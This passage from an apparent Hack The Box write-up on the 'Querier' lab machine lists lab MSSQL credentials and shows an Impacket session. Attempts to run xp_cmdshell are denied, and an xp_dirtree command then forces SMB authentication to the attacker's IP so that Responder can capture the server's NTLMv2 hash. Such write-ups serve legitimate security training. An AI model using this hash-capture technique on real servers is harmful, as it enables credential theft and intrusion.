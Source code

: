 ![](/assets/images/htb-writeup-querier/mssql_credentials.png)

- Username: `reporting`
- Password: `PcwTWTHRwryjc$c6`

### Getting RCE through MSSQL

I used the Impacket `mssqlclient.py` to connect to the database:

```
# /usr/share/doc/python-impacket/examples/mssqlclient.py -windows-auth querier/reporting@querier.htb
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

The first thing I tried was to use `xp_cmdshell` to run commands but the current user doesn't have enough privileges:

```
SQL> xp_cmdshell "whoami";
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL> EXEC sp_configure 'show advanced options', 1;
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
SQL> RECONFIGURE;
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
```

However, we can trigger an SMB connection back to us with `xp_dirtree` and steal the NTLMv2 hash from the server using Responder:

```
SQL> xp_dirtree "\\10.10.14.23\gimmesomehashes"
```

![](/assets/images/htb-writeup-querier/responder.png)
